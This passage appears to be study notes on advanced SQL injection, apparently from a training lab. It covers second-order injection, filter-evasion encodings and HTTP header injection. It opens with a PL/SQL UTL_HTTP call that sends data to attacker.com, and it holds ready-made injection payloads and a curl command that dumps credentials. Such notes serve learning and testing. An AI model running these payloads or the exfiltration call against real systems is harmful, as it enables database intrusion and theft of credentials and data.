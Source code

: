  `DECLARE   req UTL_HTTP.REQ;   resp UTL_HTTP.RESP; BEGIN   req := UTL_HTTP.BEGIN_REQUEST('http://attacker.com/exfiltrate?sensitive_data=' || sensitive_data);   UTL_HTTP.GET_RESPONSE(req); END;`

# Second-Order SQL Injection
Also known as stored SQL injection, exploits vulnerabilities where user-supplied input is saved and subsequently used om a different part of the application, possibly after some initial processing. 
Example:
Normal query in application: `UPDATE books SET book_name = '$new_book_name', author = '$new_author' WHERE ssn = '123123';`
SQL command: `12345'; UPDATE books SET book_name = 'Hacked'; --
`

# Filter Evasion Techniques
#### Character Encoding
- **URL Encoding** characters are represented using the percent (%) sign followed by their ASCII value in hexadecimal. For example, the payload `' OR 1=1 --` can be encoded as `%27%20OR%201%3D1--`.
- **Hexadecimal Encoding** can be used to construct SQL queries. For instance, the query `SELECT * FROM users WHERE name = 'admin'` can be encoded as `SELECT * FROM users WHERE name = 0x61646d696e`.
- **Unicode Encoding** represents characters using Unicode escape sequences. `admin` can be encoded as `\u0061\u0064\u006d\u0069\u006e`.
### No-Quote SQL Injection
When the application filters single or double quotes or escapes.
- **Using Numerical Values**: One approach is to use numerical values or other data types that do not require quotes. For example, instead of injecting `' OR '1'='1`, an attacker can use `OR 1=1` in a context where quotes are not necessary.
- **Using SQL Comments**: You can use the SQL comments too terminate the rest of the query. For instance, the input `admin'--` can be transformed into `admin--`, where the `--` signifies the start of a comment in SQL, effectively ignoring the remainder of the SQL statement. This can help bypass filters and prevent syntax errors.
- **Using CONCAT() Function**: You can use `CONCAT()` to construct strings without quotes. For example, `CONCAT(0x61, 0x64, 0x6d, 0x69, 0x6e)` constructs the string admin.
### No Spaces Allowed
When spaces are not allowed or filtered out.
- **Comments to Replace Spaces**: Using (`/**/`) you can replace spaces. For example, `SELECT/**//*FROM/**/users/**/WHERE/**/name/**/='admin'`
- **Tab or Newline Characters**: Using `\t`or `\n` to substitute spaces.
- **Alternate Characters**: One effective method is using alternative URL-encoded character such as `%09` (horizontal tab), `%0A` (line feed), `%0C` (form feed), `%0D` (carriage return), and `%A0` (non-breaking space).
### Banned Words and Symbols
When dealing with a word filter.
- **Mixing Lower and Upper Case**: When the query is not made all lower case or upper case we can employ this technique. For example, `SElEcT * FrOm users or SE/**/LECT * FROM/**/users`.
- **Alternative Logical Operators**: Using `||` for OR and `&&` for AND, or encoded characters.
- **Using Equivalents In Hexa or Unicode**: `SElEcT * FROM users WHERE username = CHAR(0x61,0x64,0x6D,0x69,0x6E)`
# HTTP Header Injection
HTTP headers can carry user input, which might be used in SQL queries on the server side. The technique involves manipulating HTTP header (like User-Agent, Referer, or X-Forwarded-For) to inject SQL commands.
Here's an example: `curl -H "User-Agent: ' UNION SELECT username, password FROM user; # " http://10.10.130.50/httpagent/`
## Exploiting Stored Procedures
Stored procedures are routines stored in the database that can perform various operation, such as inserting, updating, or querying data. While stored procedures can help improve performance and ensure consistency.